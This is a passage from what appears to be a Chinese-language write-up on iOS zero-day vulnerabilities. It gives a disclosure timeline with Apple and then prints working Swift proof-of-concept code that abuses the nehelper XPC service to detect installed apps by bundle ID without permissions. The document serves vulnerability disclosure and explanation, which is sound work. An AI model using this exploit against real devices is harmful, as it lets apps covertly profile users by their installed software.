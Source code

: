 在 `GKUtilityService` 上调用 `cacheImageData:inSubdirectory:withFileName:handler:` 可能允许将任意数据写入 app 沙箱之外的位置。


**报告的时间线**

2021年3月10日：向苹果报告了漏洞
2021年3月10日：苹果确认了我的报告
2021年5月20日：请求更新状态（但没有收到回复）
2021年5月30日：再次请求更新状态
2021年7月1日：苹果回复说他们仍在调查
2021年7月20日：再次请求状态更新
2021年8月25日：苹果回复说，他们计划在即将到来的更新中解决这个问题。


#### nehelper enumerate installed apps 0-day  (still works in 15.0.2)


> 漏洞在 iOS 15.0.2 还没有修复。

**漏洞作用**

该漏洞允许任何用户安装的应用程序根据 bundle ID 确定设备上是否安装了任何应用程序。

**漏洞说明**

这个漏洞，不需要任何权限，即可判断设备是否安装了 app。

运行示例：

![iOS-exploit-03.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/83d020acd96746b58255007deb01afb8~tplv-k3u1fbpfcp-watermark.image?)

获取安装的 app，可以分析用户的喜好习惯等。

**漏洞代码**

漏洞攻击示例源代码：[GitHub](https://github.com/illusionofchaos/ios-nehelper-enum-apps-0day)

```swift
func isAppInstalled(bundleId: String) -> Bool {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)!
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 1)
    xpc_dictionary_set_uint64(xdict, "cache-command", 3)
    xpc_dictionary_set_string(xdict, "cache-signing-identifier", bundleId)
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let resultData = xpc_dictionary_get_value(reply, "result-data"), xpc_dictionary_get_value(resultData, "cache-app-uuid") != nil {
        return true
    }
    return false
}
```


**漏洞分析**
